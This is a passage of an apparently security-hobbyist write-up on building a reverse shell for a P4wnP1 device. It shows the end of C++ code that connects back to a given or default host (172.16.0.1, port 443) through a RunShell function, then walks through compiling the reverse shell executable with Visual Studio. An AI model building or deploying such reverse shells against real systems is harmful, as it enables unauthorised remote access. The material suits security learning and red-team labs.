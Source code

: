 ```cpp
        int port  = atoi(argv[2]); //Converting port in Char datatype to Integer format 
        RunShell(argv[1], port); 
    } 

    else { 
        char host[] = "172.16.0.1"; 
        int port = 443; 
        RunShell(host, port); 
    } 
    return 0; 
} 
```


### Compiling
Compiling the C++ is easier than it sounds; it just requires a suitable compiler.  I made use of a Windows host and <a href="https://docs.microsoft.com/en-us/cpp/build/vscpp-step-0-installation?view=vs-2019" target = "_blank">Visual Studio 2019</a> Community Edition.  Installing Visual Studio with just the core and C++ modules will net 3.56 GB of disk space.

![Visual Studio 2019](/images/jtekt/p4wnp1/1/VSComm_Install.png){:height="75%" width="75%"}

Microsoft's walkthrough for <a href="https://docs.microsoft.com/en-us/cpp/build/walkthrough-compiling-a-native-cpp-program-on-the-command-line?view=vs-2019" target = "_blank">Native C++ compiling guide</a> serves as a good reference for creating the reverse shell executable.  

![Compiling Aku](/images/jtekt/p4wnp1/1/Aku_Compiled.png){:height="75%" width="75%"}
